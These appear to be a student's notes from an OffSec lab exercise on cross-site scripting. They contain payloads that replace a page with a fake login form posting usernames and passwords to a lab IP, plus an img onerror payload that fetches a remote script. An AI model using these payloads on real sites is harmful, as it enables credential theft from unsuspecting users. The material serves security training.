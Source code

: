 ```html
    <input type="password" placeholder="Enter Password" name="psw" required>  
  
    <button type="submit">Login</button>  
  </div>
</form>
```
###### login.html (one liner)
- In HTML you want to put it on a one liner - it doesn't matter, so you do it bc the course said to.
- Now we have a full functioning HTML form that points to our kali machine
```html
#1 
document.getElementsByTagName("html")[0].innerHTML = "<form action="http://192.168.45.236/login" method="GET"><div class="container"><label for="uname"><b>Username</b></label><input type="text" placeholder="Enter Username" name="uname" required><label for="psw"><b>Password</b></label><input type="password" placeholder="Enter Password" name="psw" required><button type="submit">Login</button></div></form>"

#2
document.getElementsByTagName("html")[0].innerHTML = "<form action="http://192.168.45.236/cred" method="GET"><div class="container"><label for="uname"><b>Username</b></label><input type="text" placeholder="Enter Username" name="uname" required><label for="psw"><b>Password</b></label><input type="password" placeholder="Enter Password" name="psw" required><button type="submit">Login</button></div></form>"

#offsec provided
document.getElementsByTagName("html")[0].innerHTML = "<form action='[http://192.168.45.156/cred](http://192.168.45.156/cred)' method='GET'><input type='text' placeholder='name@example.com' name='username'><input type='password' placeholder='Password' name='password'><button class='w-100 btn btn-lg btn-primary' type='submit'>Sign in</button></form>"
```
the goal of all of this is to change the `innerHTML` from the `xss6.js` script 
![[Pasted image 20240805201048.png]]
and make it point to `login.html (one liner)` and we have to do it with an `img` thanks to `innerHTMl` - we need to make a one liner `.js` that forces `innerHTML'
to utilize the new `login.html` form

###### phishingexercise.js
- chat gpt finished this becuase the whole script wasnt shown
```js
document.getElementsByTagName("html")[0].innerHTML = '<form action="http://192.168.45.236:80/login.html" method="POST">'
```

this `InnerHTML` Payload is the only thing that we can run `.js` in, so the goal is to somehow use this script to use the `login.html (one liner)` that is the tricky part
```html
<img src="x" onerror='fetch("http://192.168.45.236:80/xss6.js")'>
```
In order to solve this we need to create a `script` using `java script` with the `script element` - navigate to this website https://www.codingbeautydev.com/blog/javascript-create-script-element
